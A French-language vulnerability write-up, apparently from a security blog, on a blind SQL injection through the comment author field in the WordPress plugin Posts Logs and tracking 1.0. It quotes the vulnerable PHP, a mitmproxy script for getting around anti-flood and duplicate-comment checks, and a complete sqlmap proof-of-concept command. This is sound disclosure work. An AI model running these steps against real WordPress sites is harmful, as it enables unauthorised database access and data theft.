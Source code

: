 ```yaml
---
title: "Injection SQL dans le plugin Wordpress Posts Logs and tracking"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Posts Logs and tracking](https://wordpress.org/plugins/posts-logs-and-tracking/) se présente de cette façon :

> The tracking plugin Logs every new post with posted time , Log every new comments and reply posted time

La version testée est la 1.0 qui date d'il y a 9 ans au moment de ces lignes.

## La vulnérabilité

Dans le script `WPtracking.php` on trouve une classe dont le constructeur enregistre plusieurs hooks :

```php
class WPTracking{                                                                                                      
    static $instance;

    function __construct()
    {
        self::$instance = $this;
        add_action('init', array($this, 'init'));
    }
    //add hooks on app init
    function init()
    {
        add_action('transition_post_status',  array($this, 'log_post'), 10, 3 );
        add_action('wp_set_comment_status ', array($this, 'log_comment'));
        add_action('wp_insert_comment', array($this, 'log_comment'), 99, 2);
    }
    --- snip ---
```

On remarque notamment l'appel à la fonction `log_comment` que voici :

```php
public function log_comment($comment_id, $comment_object) {
   if ($comment_object->comment_parent > 0) { // Reply
       $this->wplog('R', $comment_object);
   } else {                                   // new comment
       $this->wplog('C', $comment_object);
   }
}
```

On va se pencher en particulier sur le cas d'un nouveau commentaire avec le type `C`.

Les données soumises sont passées dans `$data` à la fonction `wplog` :

```php
public function wplog($type, $data)
{
    global $wpdb;
    // Save log by data
    if ($type == 'P')
    {
        --- snip ---                                                                                                     
    }
    if ($type == 'C')
    {
        if (get_option('wp_tracking_comment') == 1)
        {
            $author = $data->comment_author;
            $comment = $data->comment_content;
            $com_id = $data->comment_ID;
            $insert = "INSERT INTO `".$wpdb->prefix."tracking`( `track_type`, `comment_id`, `content`, `author`) VALUES
                ('C', '$com_id', '$comment','$author')";
            $wpdb->query($insert);
        }
    }
    if ($type == 'R')
```

Le problème de ces hooks c'est qu'ils laissent supposer que les données sont déjà échappées en vue de l'insertion en base ou l'affichage dans le navigateur alors que ce n'est pas le cas.

Ici, on peut par exemple exploiter une faille d'injection SQL via le champ `author` lorsque l'on poste un commentaire. 

Il y a toutefois deux mécanismes qui bloquent l'automatisation de la vulnérabilité (par exemple avec `sqlmap`) :

- l'anti-flood de Wordpress vous oblige à attendre 15 secondes avant de pouvoir reposter un commentaire (sinon il répond avec un code HTTP 429)
- le mécanisme anti-doublon refusera votre commentaire si vous avez déjà soumis un texte identique

`sqlmap` dispose d'une option `--randomize` qui permet de spécifier dans quel(s) paramètre(s) injecter des données aléatoires.

Si on a peur de retomber sur la même valeur aléatoire pendant l'attaque alors, on peut avoir recours à un script [mitmproxy](https://mitmproxy.org/) qui réécrira le paramètre avec une donnée qui s'incrémente :

```python
from random import choices
from string import ascii_letters, digits

from mitmproxy import http

COUNT = 0

def get_random_name():
    return "".join(choices(ascii_letters + digits, k=16))

COMMENT = get_random_name()

def request(flow: http.HTTPFlow) -> None:
    global COUNT
    global AUTHOR
    if flow.request.urlencoded_form:
        if "comment" in flow.request.urlencoded_form:
            flow.request.urlencoded_form["comment"] = f"{COMMENT}{COUNT}"
            COUNT += 1
```

On lancera `mitmproxy` avec `-s` pour spécifier le chemin du script et on donnera l'adresse du proxy à `sqlmap`.

Il faut aussi donner l'option `--delay 16` à `sqlmap` pour bypasser l'anti-flood.

Autre problématique : par défaut le commentaire peut aller dans la zone de modération.

Wordpress dispose d'un paramètre qui place par défaut le premier commentaire d'un utilisateur en attente. Une fois validé l'utilisateur pourra poster d'autres commentaires sans attendre la modération.

Pour terminer le hook est exécuté [après l'insertion du commentaire](https://developer.wordpress.org/reference/hooks/wp_insert_comment/) :

> Fires immediately after a comment is inserted into the database.

Par conséquence les injections SQL seront visibles dans les commentaires par l'administrateur et potentiellement par les visiteurs.

Comme le hook stocke les commentaires dans une table différente (`wp_tracking`) on ne peut pas obtenir le résultat de l'injection dans les commentaires affichés.

L'injection se fera par conséquent en aveugle.

`sqlmap` indique aussi un problème avec le caractère `>` qui nous oblige à utiliser un script tamper.

Avec tous ces paramètres, on obtient un PoC `sqlmap` de 3 kilomètres, mais ça fait l'affaire :

PoC :

```bash
python3 sqlmap.py  -u http://localhost:8000/wp-comments-post.php \
  --data "author=yolo&email=none%40whatever.com&url=https%3A%2F%2Fperdu.com%2F&wp-comment-cookies-consent=yes&submit=Post%20Comment&comment_post_ID=1&comment_parent=0&comment=Hello%20there%21" \
  --technique TU \
  --risk 3 --level 5 \
  -p author \
  --union-cols 4 \
  --delay 16 \
  --proxy http://127.0.0.1:8080/ \
  --tamper=between \
  --current-db 
```
